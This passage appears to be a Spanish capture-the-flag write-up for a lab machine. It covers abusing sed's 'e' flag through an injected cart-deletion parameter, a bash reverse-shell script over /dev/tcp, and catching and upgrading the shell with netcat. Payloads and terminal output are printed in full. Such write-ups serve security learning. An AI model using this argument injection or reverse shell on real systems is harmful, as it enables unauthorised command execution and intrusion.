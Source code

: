Solamente elimina las lineas que coincidan con lo que haya en la variable $item_id, sería algo así:
{% highlight bash %}
❯ cat text
vzon=cute
suricata=ugly
that is a fact, no matter what.
❯ sed -i "/suricata=ugly/d" text
❯ cat text
vzon=cute
that is a fact, no matter what.
{% endhighlight %}

sed tiene una opción especial llamada "e" que te permite ejecutar comandos

{% highlight bash %}
[line-number]e touch hello 
{% endhighlight %}

Si podemos introducir los tres caracteres mencionados anteriormente sin que el sitio se moleste, podríamos hacer algo como esto:

{% highlight bash %}
#Notese los carácteres
❯ sed -i '/vzon=' -e '1e touch pwned' '/d' text
sed: no se puede leer /vzon=: No existe el fichero o el directorio
❯ ls -la pwned
.rw-r--r-- 0 vzon 23 feb 14:18 pwned
{% endhighlight %}

Vamos a intentarlo agregendo un item al carrito, luego removiéndolo y editando la petición que se envia al servidor. Pero antes debemos crear un script que nos envíe una consola interactiva para ejecutar porque recordemos que estamos limitados en cuanto a caracteres en la petición

Creemoslo en /tmp con el nombre "a.sh":

{% highlight bash %}
#!/bin/bash
bash -c "bash -i >& /dev/tcp/127.0.0.1/8443 0>&1"
{% endhighlight %}

No hay que olvidar darle permisos de ejecución eh.

Interceptando peticiones vemos esto por POST al remover un item del carrito:

```
item=2&user=da41-18a7-cb9-bcc4&action=delete_item
```

Lo cambiamos a:

```
item='+-e+'1e+/tmp/a.sh'+'&user=da41-18a7-cb9-bcc4&action=delete_item
```

Iniciamos un listener de netcat en el puerto 8443 de la misma máquina, déjamos fluir la petición editada... y recibimos la conexión con la reverse shell.

{% highlight bash %}
bean@awkward:~$ nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 127.0.0.1 38014
bash: cannot set terminal process group (1409): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/store$ script /dev/null -c bash #Iniciar un nuevo proceso 
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@awkward:~/store$ ^Z #CTRL + Z
[1]+  Stopped                 nc -lvnp 8443
bean@awkward:~$ stty raw -echo; fg # Establecer ciertas opciones de la tty
nc -lvnp 8443
             reset xterm # Reiniciar la terminal